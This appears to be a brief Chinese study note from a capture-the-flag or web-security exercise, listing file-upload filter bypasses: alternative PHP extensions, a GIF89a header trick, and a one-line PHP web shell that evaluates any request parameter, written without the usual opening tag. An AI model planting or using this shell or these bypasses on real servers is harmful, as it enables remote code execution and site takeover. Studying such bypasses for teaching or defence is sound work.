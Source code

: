 考察知识点：

1.php文件名扩展（php,php3,php4,php5,phtml.pht)

2.php文件没有<?的写法

```javascript
<script language="php">eval($_REQUEST[shell])</script>
```

3.文件头绕过GIF89a
